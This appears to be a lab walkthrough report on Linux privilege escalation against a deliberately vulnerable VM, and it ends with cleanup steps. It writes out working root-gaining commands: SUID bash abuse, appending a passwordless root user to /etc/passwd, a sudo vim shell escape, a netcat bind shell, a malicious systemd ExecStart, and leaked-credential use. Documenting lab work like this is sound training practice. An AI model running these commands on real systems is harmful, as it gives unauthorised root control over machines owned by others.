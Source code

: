 # 🐧 Linux Privilege Escalation Lab – Walkthrough Report

This walkthrough document captures each step taken during the hands-on privilege escalation lab using a vulnerable Linux Mint VM and a Parrot OS attacker VM. Screenshots were taken throughout the process to document key stages of exploitation.

---

## 🖥️ Environment Overview

* **Victim VM**: Linux Mint
* **Attacker VM**: Parrot OS
* **Network Setup**: Host-Only Adapter (VMware Workstation Pro)

---

## 🔧 Initial Setup

1. Verified IP connectivity between VMs using `ip a` and `ping`
2. Started SSH on the victim machine: `sudo systemctl start ssh`
3. Logged into the victim machine from attacker using:

   ```bash
   ssh intern@<victim-ip>
   # password: password
   ```

✅ Screenshot: Successful SSH login and `whoami` as `intern`

---

## 🔰 Basic Privilege Escalation Techniques

### 1. 📍 SUID Binary Exploitation

* Enumerated SUID binaries:

  ```bash
  find / -perm -4000 2>/dev/null
  ```
* Found `/usr/local/bin/suidbash`
* Exploited it:

  ```bash
  /usr/local/bin/suidbash -p
  whoami
  ```

✅ Screenshot: Root shell via SUID

---

### 2. 📍 Writable `/etc/passwd`

* Confirmed writable permissions:

  ```bash
  ls -l /etc/passwd
  ```
* Appended fake root user:

  ```bash
  echo 'hacked::0:0::/root:/bin/bash' >> /etc/passwd
  su hacked
  ```

✅ Screenshot: Root shell via passwd injection

---

### 3. 📍 Sudo Misconfiguration (`vim`)

* Listed allowed sudo commands:

  ```bash
  sudo -l
  ```
* Found `NOPASSWD: /usr/bin/vim`
* Gained root shell via:

  ```bash
  sudo vim -c ':!bash'
  whoami
  ```

✅ Screenshot: Root shell via vim escape

---

## 🔥 Advanced Privilege Escalation Techniques

### 4. 📍 Netcat `setcap` Bind Shell

* Verified capability:

  ```bash
  getcap -r / 2>/dev/null
  ```
* On victim:

  ```bash
  /usr/bin/nc.traditional -lp 80 -e /bin/bash
  ```
* On attacker:

  ```bash
  nc <victim-ip> 80
  whoami
  ```

✅ Screenshot: Remote root shell via netcat

---

### 5. 📍 Writable systemd service

* Edited vulnerable service:

  ```bash
  nano /etc/systemd/system/vuln.service
  ```
* Malicious `ExecStart`:

  ```ini
  ExecStart=/bin/bash -c 'cp /bin/bash /tmp/rooted && chmod +s /tmp/rooted'
  ```
* Reloaded and restarted:

  ```bash
  sudo systemctl daemon-reexec
  sudo systemctl daemon-reload
  sudo systemctl restart vuln
  /tmp/rooted -p
  ```

✅ Screenshot: Rooted binary + root shell

---

### 6. 📍 Leaked Config Credentials

* Read secret environment file:

  ```bash
  cat /etc/secret.env
  ```
* Used credentials to `su root`:

  ```bash
  su root
  # password: SuperSecret123
  ```

✅ Screenshot: `su` to root via leaked secret

---

## 🧪 Optional Recon: LinPEAS

* Ran enumeration script:

  ```bash
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```

✅ Screenshot: LinPEAS output highlighting exploitable paths

---

## 📷 Screenshot Archive

* SUID shell
* Writable passwd
* sudo vim root
* Netcat bind shell
* Systemd overwrite
* Config secret
* LinPEAS results

---

## 🧼 Cleanup Commands (Post-Lab)

```bash
rm /usr/local/bin/suidbash
chmod 644 /etc/passwd
setcap -r /usr/bin/nc.traditional
rm /etc/secret.env
rm /etc/systemd/system/vuln.service
systemctl daemon-reload
```

---
